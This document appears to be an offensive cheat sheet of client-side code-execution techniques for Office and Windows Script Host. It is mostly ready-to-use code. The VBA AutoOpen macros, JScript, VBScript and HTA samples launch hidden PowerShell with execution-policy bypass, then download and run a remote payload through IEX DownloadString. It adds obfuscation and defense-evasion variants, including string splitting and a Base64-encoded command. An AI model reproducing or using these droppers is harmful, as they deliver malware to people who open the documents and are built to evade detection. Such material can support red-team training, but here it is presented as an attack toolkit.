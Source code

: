 
Here's a cheat sheet with code examples for the topics "Client-Side Code Execution with Office" and "Client-Side Code Execution with Windows Script Host (WSH)":

###**Client-Side Code Execution with Office**

#### **Macro Execution in Office**
- **Basic Macro**: Execute PowerShell command via macro.

```vba
Sub AutoOpen()
    CreateObject("WScript.Shell").Run "powershell -exec bypass -NoProfile -WindowStyle Hidden -Command ""IEX(New-Object Net.WebClient).DownloadString('http://example.com/payload.ps1')"""
End Sub
```
- **Obfuscated Macro**: Hide the intent with simple obfuscation.

```vba
Sub AutoOpen()
    Dim x As String
    x = "powershell -exec bypass -NoProfile -WindowStyle Hidden -Command ""IEX(New-Object Net.WebClient).DownloadString('http://example.com/payload.ps1')"""
    CreateObject("WScript.Shell").Run x
End Sub
```

#### ** Embedded PowerShell in Office Documents**
- **Embedding Base64 PowerShell**: Encodes PowerShell commands in Base64.

```vba
Sub AutoOpen()
    Dim cmd As String
    cmd = "powershell.exe -encodedCommand " & "JABhAHMAcwA9ACcAaAB0AHQAcAA6AC8ALwBlAHgAYQBtAHAAbABlAC4AYwBvAG0ALwBwAGEAdABoAC0AdABvAC0AcABvAHcAZQByAHMAaABlAGwAbAAnADsAJABpAG8APQBuAGUAdwAtAG8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAA7ACQAcwA9ACgAJABpAG8ALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAApACkAOwAkAGUAbgA9ACgAJABzACkAOwAkAG4APQAiAG4AZQB3AC0AbwBiAGoAZQBjAHQAIgA7ACgAJABuAGUAcwB0ACkAIgB8ACAAWwBzAGUAbABlAGMAdABdAFsAewAkAGEAbgByAC0AZwBlAHQALQBmAGkAbABlACAtAG4AbwBoAG8AcwB0AC0AcABhAGMAdABpAGMAbwBuAC0AbgBvAHIAZwAAtAB2AG8AbAB0AHMAfQA=="
    CreateObject("WScript.Shell").Run cmd
End Sub
```

#### ** Defense Evasion**
- **String Concatenation**: Breaks up suspicious commands.

```vba
Sub AutoOpen()
    Dim p As String
    p = "pow" & "ers" & "hell"
    CreateObject("WScript.Shell").Run p & " -exec bypass -NoProfile -WindowStyle Hidden -Command ""IEX(New-Object Net.WebClient).DownloadString('http://example.com/payload.ps1')"""
End Sub
```

### **Client-Side Code Execution with Windows Script Host (WSH)**

#### ** JScript Execution**
- **Basic JScript**: Execute PowerShell via WSH.

```js
var shell = new ActiveXObject("WScript.Shell");
shell.Run("powershell -exec bypass -NoProfile -WindowStyle Hidden -Command \"IEX(New-Object Net.WebClient).DownloadString('http://example.com/payload.ps1')\"");
```

#### ** VBScript Execution**
- **Basic VBScript**: Execute PowerShell via WSH.

```vbscript
Set objShell = CreateObject("WScript.Shell")
objShell.Run "powershell -exec bypass -NoProfile -WindowStyle Hidden -Command ""IEX(New-Object Net.WebClient).DownloadString('http://example.com/payload.ps1')"""
```

#### ** Embedding Scripts in HTML Applications (HTA)**
- **HTA Example**: Execute a command via embedded script.

```html
<html>
<head>
    <script language="VBScript">
        Set objShell = CreateObject("WScript.Shell")
        objShell.Run "powershell -exec bypass -NoProfile -WindowStyle Hidden -Command ""IEX(New-Object Net.WebClient).DownloadString('http://example.com/payload.ps1')"""
    </script>
</head>
</html>
```

#### ** Obfuscation Techniques**
- **String Obfuscation in JScript**: Breaks up suspicious keywords.

```js
var shell = new ActiveXObject("WScript.Shell");
var command = "pow" + "ers" + "hell -exec bypass -NoProfile -WindowStyle Hidden -Command \"IEX(New-Object Net.WebClient).DownloadString('http://example.com/payload.ps1')\"";
shell.Run(command);
```

#### **Launching Scripts via `cscript.exe` or `wscript.exe`**
- **Running VBScript with `cscript`**:

```sh
cscript.exe script.vbs
```
- **Running JScript with `wscript`**:

```sh
wscript.exe script.js
```

